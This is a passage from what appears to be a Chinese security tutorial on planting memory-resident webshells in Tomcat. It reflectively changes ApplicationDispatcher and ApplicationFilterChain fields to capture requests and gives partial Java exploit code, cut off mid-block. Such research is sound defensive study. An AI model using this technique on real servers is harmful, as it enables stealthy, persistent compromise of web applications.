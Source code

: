 这里的赋值来自于internalDoFilter参数，看样子等同于jsp的内置对象request

![image-20250225191457946](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225191457946.png)

于是有了利用思路：

1. 反射修改`ApplicationDispatcher.WRAP_SAME_OBJECT`为true，此时lastServicedRequest和lastServicedResponse有了值

2. 由于已经反射修改了`WRAP_SAME_OBJECT`，而if内的set是调用ThreadLocal.set()，肯定得先初始化lastServicedRequest和lastServicedResponse。代码可以直接copy ApplicationFilterChain static块

![image-20250225193232467](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225193232467.png)

3. 不管我们是在doFilter还是servlet.service处进行内存马利用，都需要先运行一遍internalDoFilter才能成功赋值。也就是需要访问两次对应servlet，一次反射赋值，一次取出request和response。而且lastServicedRequest和lastServicedResponse、WRAP_SAME_OBJECT都是final修饰，需要加一步反射。

上述利用存在两个个利用条件：

一是 JDK 在 17 版本之后不能够通过反射去修改 final 属性值。也就是在 Springboot3 或者 Spring6 这种内置要求 JDK17 版本之后的服务都不能通过这种方式打入内存马

二是 tomcat10.1.x 之后的版本（也就是 Springboot3 要求的版本），判断条件也发生了变化

所以利用场景限制于 Tomcat<10 ，JDK<17 的情况，具体一点就是 Springboot2，spring5，以及版本符合条件的 javaweb 环境等（高版本有高版本的方法，之后再写）

```java
        try{
            //反射获取WRAP_SOME_OBJECT_FIELD lastServicedRequest lastServicedResponse
            Field WRAP_SOME_OBJECT_FIELD=Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestfield= ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponsefield=ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
            WRAP_SOME_OBJECT_FIELD.setAccessible(true);
            lastServicedRequestfield.setAccessible(true);
            lastServicedResponsefield.setAccessible(true);
            //使用modifiersField修改属性值的final修饰
            //每一个Field都会存在一个变量 modifiers用来描述修饰词，所以这里我们获取到的是Field的modifiers 它本质上是一个int类型的值
            java.lang.reflect.Field  modifiersfield= Field.class.getDeclaredField("modifiers");
            modifiersfield.setAccessible(true);

            //修改WRAP_SOME_OBJECT_FIELD以及requst和response的modifiers，值的话由于要得到16进制位数，并且清除final属性，本质上就是将他修改为0x0000即可，这里getModifiers()的结果为0x0010 Modifier.FINAL的结果也是0x0010，所以两者&~运算得到0x0000
            modifiersfield.setInt(WRAP_SOME_OBJECT_FIELD,WRAP_SOME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
            modifiersfield.setInt(lastServicedRequestfield,lastServicedRequestfield.getModifiers() & ~Modifier.FINAL);
            modifiersfield.setInt(lastServicedResponsefield,lastServicedResponsefield.getModifiers() & ~Modifier.FINAL);


            //如果是第一次访问，WRAP_SOME_OBJECT_FIELD肯定是没有值的，所以我们赋值上true 并且同时给lastServicedRequest和lastServicedResponse都初始化
            if(!WRAP_SOME_OBJECT_FIELD.getBoolean(null)){
                WRAP_SOME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedResponsefield.set(null,new ThreadLocal<ServletResponse>());
                lastServicedRequestfield.set(null,new ThreadLocal<ServletRequest>());

            }else{//第二次访问开始正式获取当前线程下的Req和Resp
                ThreadLocal<ServletRequest> threadLocalReq= (ThreadLocal<ServletRequest>)lastServicedRequestfield.get(null);
                ThreadLocal<ServletResponse> threadLocalResp=(ThreadLocal<ServletResponse>) lastServicedResponsefield.get(null);
                ServletRequest servletRequest = threadLocalReq.get();
                ServletResponse servletResponse = threadLocalResp.get();
                ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) servletRequest.getServletContext();
```